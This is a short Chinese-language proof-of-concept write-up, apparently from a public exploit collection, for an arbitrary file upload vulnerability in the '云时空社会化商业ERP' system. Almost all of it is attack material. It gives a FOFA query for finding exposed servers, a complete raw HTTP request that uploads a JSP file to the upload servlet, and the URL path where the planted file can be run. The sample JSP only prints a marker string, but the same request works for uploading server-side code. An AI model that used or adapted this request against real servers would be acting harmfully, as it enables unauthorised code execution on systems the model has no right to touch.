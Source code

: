 ## 云时空社会化商业ERP任意文件上传

## fofa
```
app="云时空社会化商业ERP系统"
```

## poc
```
POST /servlet/fileupload/gpy HTTP/1.1
Host: ip:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=4eea98d02AEa93f60ea08dE3C18A1388
Content-Length: 220

--4eea98d02AEa93f60ea08dE3C18A1388
Content-Disposition: form-data; name="file"; filename="random_str.jsp"
Content-Type: application/octet-stream

<% out.println("random_str"); %>
--4eea98d02AEa93f60ea08dE3C18A1388--
```
![0a88234fdcf3709606fc26191caf848e](../../images/a7eb2358-6f1c-4d09-b76a-03a96a453da6.png)

访问上传文件
/uploads/pics/2023-12-9/random_str.jsp
